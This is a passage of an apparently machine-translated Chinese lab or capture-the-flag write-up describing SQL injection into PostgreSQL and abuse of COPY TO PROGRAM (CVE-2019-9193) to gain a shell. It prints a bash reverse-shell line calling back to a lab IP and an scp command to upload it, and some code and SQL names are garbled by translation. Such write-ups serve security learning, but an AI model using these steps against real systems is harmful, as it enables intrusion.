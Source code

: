 看到我得到一个语法错误，我查看了 Postgre 注入备忘单，发现这个漏洞正在工作:

[](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md#postgresql-command-execution) [## swisskyrepo/payloads all things

### 选择用户；选择当前用户；选择会话 _ 用户；从 pg_user 中选择 usenameSELECT getpgusername()；选择…

github.com](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md#postgresql-command-execution) 

CVE 的详细资料提到“[在 PostgreSQL 9.3 到 11.2 中，“复制到程序/从程序复制”功能允许超级用户和‘pg _ execute _ server _ PROGRAM’组中的用户在数据库操作系统用户的上下文中执行任意代码。](https://nvd.nist.gov/vuln/detail/CVE-2019-9193)“Postgres 对此有争议，但尽管如此，它是可行的。

我创建了一个文件，内容如下:

```
#!/bin/bashbash -i >& /dev/tcp/10.10.14.2/9001 0>&1
```

并使用 scp 将它放在 tmp 目录下:

```
scp -i sifo-ssh rev.sh roy@10.10.10.156:/tmp/
```

![](img/2b5bad7f85d5270c7467ec621742e0fd.png)

在弄清楚如何让感染工作之后，我以 postgres 用户的身份获得了一个 shell。

![](img/265e65632990a951a7d3c1a558f62dae.png)
